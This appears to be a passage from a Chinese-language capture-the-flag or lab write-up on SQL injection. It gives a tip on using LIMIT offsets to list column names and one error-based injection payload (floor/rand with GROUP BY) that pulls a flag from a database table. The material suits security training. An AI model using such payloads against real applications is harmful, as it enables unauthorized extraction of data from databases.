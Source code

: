 ![局部截取_20250508_215638](./img/局部截取_20250508_215638.png)

> [!Important]
>
> 使用limit 0,1 或者limit 1,1才能更加完整的获取所有列名。



获取flag

`id=1')) and (select 1 from (select count(*),concat((select concat(0x7e,flag,0x7e) from answers.flags where stage=7 limit 0,1),floor(rand(0)*2))s from information_schema.tables group by s)a) %23`

![局部截取_20250508_220518](./img/局部截取_20250508_220518.png)
